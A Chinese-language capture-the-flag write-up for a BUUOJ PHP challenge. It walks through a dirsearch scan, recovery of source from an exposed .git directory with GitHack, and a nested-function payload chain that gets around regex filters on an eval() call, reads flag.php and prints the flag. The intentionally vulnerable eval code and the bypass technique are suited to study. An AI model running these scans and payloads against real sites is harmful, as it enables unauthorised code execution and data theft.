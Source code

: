 # [GXYCTF2019]禁止套娃
![](<./img/Pasted image 20221114101936.png>)

---
首页长这样

![](<./img/Pasted image 20221114101945.png>)

然后好像就没有然后了QAQ

---
尝试使用`dirsearch`进行目录扫描
```shell
./dirsearch.py -u http://xxx.node4.buuoj.cn/ -t 1
```

```python
# Dirsearch started Mon Nov 14 10:28:50 2022 as: /home/chen/Desktop/proj/repos/dirsearch/dirsearch.py -u http://xxx.node4.buuoj.cn/ -t 1

301   185B   http://xxx.node4.buuoj.cn/.git    -> REDIRECTS TO: http://xxx.node4.buuoj.cn/.git/
403   169B   http://xxx.node4.buuoj.cn/.git/
403   169B   http://xxx.node4.buuoj.cn/.git/branches/
200   267B   http://xxx.node4.buuoj.cn/.git/COMMIT_EDITMSG
200    92B   http://xxx.node4.buuoj.cn/.git/config
200    73B   http://xxx.node4.buuoj.cn/.git/description
200    23B   http://xxx.node4.buuoj.cn/.git/HEAD
403   169B   http://xxx.node4.buuoj.cn/.git/hooks/
200   137B   http://xxx.node4.buuoj.cn/.git/index
403   169B   http://xxx.node4.buuoj.cn/.git/info/
200   240B   http://xxx.node4.buuoj.cn/.git/info/exclude
403   169B   http://xxx.node4.buuoj.cn/.git/logs/
200   150B   http://xxx.node4.buuoj.cn/.git/logs/HEAD
301   185B   http://xxx.node4.buuoj.cn/.git/logs/refs    -> REDIRECTS TO: http://xxx.node4.buuoj.cn/.git/logs/refs/
301   185B   http://xxx.node4.buuoj.cn/.git/logs/refs/heads    -> REDIRECTS TO: http://xxx.node4.buuoj.cn/.git/logs/refs/heads/
200   150B   http://xxx.node4.buuoj.cn/.git/logs/refs/heads/master
403   169B   http://xxx.node4.buuoj.cn/.git/objects/
403   169B   http://xxx.node4.buuoj.cn/.git/refs/
301   185B   http://xxx.node4.buuoj.cn/.git/refs/heads    -> REDIRECTS TO: http://xxx.node4.buuoj.cn/.git/refs/heads/
200    41B   http://xxx.node4.buuoj.cn/.git/refs/heads/master
301   185B   http://xxx.node4.buuoj.cn/.git/refs/tags    -> REDIRECTS TO: http://xxx.node4.buuoj.cn/.git/refs/tags/
```
发现可能存在`git`源码泄露，使用`GitHack`获取源码
```shell
chen@cracktc-no-omen ~/D/p/r/GitHack (master)> ./GitHack.py http://xxx.node4.buuoj.cn/.git/
[+] Download and parse index file ...
[+] index.php
[OK] index.php
```
---
index.php
```php
<?php  
include "flag.php";  
echo "flag在哪里呢？<br>";  
if(isset($_GET['exp'])){  
   if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {  
       if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {  
           if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {  
               // echo $_GET['exp'];  
               @eval($_GET['exp']);  
           }  
           else{  
               die("还差一点哦！");  
           }  
       }  
       else{  
           die("再好好想想！");  
       }  
   }  
   else{  
       die("还想读flag，臭弟弟！");  
   }  
}  
// highlight_file(__FILE__);  
?>
```
只接受函数套函数的形式，禁止套娃.jpg

---
# 思路
主要就是想办法只通过函数的嵌套搞出`'.'`，从而通过`scandir('.');`来获得目录下的文件，再通过数组操作取`flag.php`传给`highlight_file`函数，达到获取`flag`的目的

---
# 获取`'.'`
搜索得知，`localeconv()`函数能够返回区域格式相关的信息
```php
/?exp=var_dump(localeconv());
```

```php
array(18) {
  ["decimal_point"]=>
  string(1) "."
  ["thousands_sep"]=>
  string(0) ""
  ["int_curr_symbol"]=>
  string(0) ""
  ["currency_symbol"]=>
  string(0) ""
  ["mon_decimal_point"]=>
  string(0) ""
  ["mon_thousands_sep"]=>
  string(0) ""
  ["positive_sign"]=>
  string(0) ""
  ["negative_sign"]=>
  string(0) ""
  ["int_frac_digits"]=>
  int(127)
  ["frac_digits"]=>
  int(127)
  ["p_cs_precedes"]=>
  int(127)
  ["p_sep_by_space"]=>
  int(127)
  ["n_cs_precedes"]=>
  int(127)
  ["n_sep_by_space"]=>
  int(127)
  ["p_sign_posn"]=>
  int(127)
  ["n_sign_posn"]=>
  int(127)
  ["grouping"]=>
  array(0) {
  }
  ["mon_grouping"]=>
  array(0) {
  }
}
```
通过`current`函数可以取该数组的第一个元素，也就是小数点`.`
```php
/?exp=var_dump(current(localeconv()));
```

```php
string(1) "."
```
---
# 获取目录文件
```php
/?exp=var_dump(scandir(current(localeconv())));
```

```php
array(5) {
  [0]=>
  string(1) "."
  [1]=>
  string(2) ".."
  [2]=>
  string(4) ".git"
  [3]=>
  string(8) "flag.php"
  [4]=>
  string(9) "index.php"
}
```

# 获取`'flag.php'`
`'flag.php'`在数组的倒数第二个位置

可以通过`array_reverse`函数将数组倒序返回，再利用`next`函数取第二个元素
```php
/?exp=var_dump(next(array_reverse(scandir(current(localeconv())))));
```

```php
string(8) "flag.php"
```

# 读取`flag.php`
```php
/?exp=var_dump(highlight_file(next(array_reverse(scandir(current(localeconv()))))));
```

```php
<?php
$flag = "flag{b0706baf-2c5c-4499-8a5e-8961814c3bf6}";
?>
```

---
这篇大佬写的wp还介绍了更多无参数RCE的骚操作

https://johnfrod.top/ctf/gxyctf-2019禁止套娃/
